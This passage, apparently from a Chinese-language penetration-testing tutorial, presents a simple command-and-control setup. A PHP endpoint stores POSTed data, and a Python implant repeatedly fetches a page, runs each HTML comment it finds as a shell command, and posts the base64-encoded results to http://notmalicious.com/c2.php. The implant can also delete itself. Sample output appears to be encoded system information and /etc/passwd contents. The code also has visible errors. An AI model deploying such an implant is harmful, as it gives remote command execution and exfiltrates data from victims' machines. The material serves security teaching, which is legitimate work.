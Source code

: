 ```py
$result=mysql_query($sql);

mysql_close();
?>
```

基本上，这个 PHP 所做的就是在名为`comment`的`POST`请求中获取一个传入值，并将其放入数据库中。这是非常基本的，如果有多个 shell，它不会区分多个传入命令。

## 怎么做…

我们将使用的脚本如下所示：

```py
import requests
import re
import subprocess
import time
import os

while 1:
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
  for comment in comments:
    if comment = " ":
      os.delete(__file__)
    else:
      try:
        response = subprocess.check_output(comment.split())
      except:
        response = "command fail"
  data={"comment":(''.join(response)).encode("base64")}
  newreq = requests.post("http://notmalicious.com/c2.php", data=data)
  time.sleep(30)
```

下面显示了使用此脚本时生成的输出示例：

```py
Name: TGludXggY2FtLWxhcHRvcCAzLjEzLjAtNDYtZ2VuZXJpYyAjNzktVWJ1bnR1IFNNU CBUdWUgTWFyIDEwIDIwOjA2OjUwIFVUQyAyMDE1IHg4Nl82NCB4ODZfNjQgeDg2X zY0IEdOVS9MaW51eAo= Comment:
Name: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFl bW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9i aW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jp bi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5 bmM6L2JpbjovYmluL3N5bmMKZ Comment:
```

## 它是如何工作的…

一如既往，我们导入必要的库并启动脚本：

```py
import requests
import re
import subprocess
import time
import os
```
